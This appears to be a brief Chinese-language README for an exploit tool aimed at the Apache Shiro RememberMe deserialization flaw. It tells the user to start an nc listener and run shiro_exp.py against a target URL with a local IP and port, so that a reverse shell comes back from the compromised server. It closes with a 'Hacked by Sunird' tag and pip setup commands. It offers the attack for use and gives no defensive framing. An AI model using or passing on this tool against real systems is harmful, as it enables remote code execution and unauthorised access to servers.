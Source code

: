 ### Shiro_RememberMe反序列化漏洞利用工具
(目标主机可反向连接到本机)
#### 使用方法

- nc 监听一个端口用于反弹
- 使用shiro_exp



#### Usage

- shiro_exp.py -u [url 目标网址] -lh [localhost 监听器本地IP] -lp [localport 监听端口]

![shiro_3](shiro_3.PNG)

--Hacked by Sunird

#  No module named Crypto.Cipher

```
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
python2 get-pip.py
pip2 install pycryptodome
```
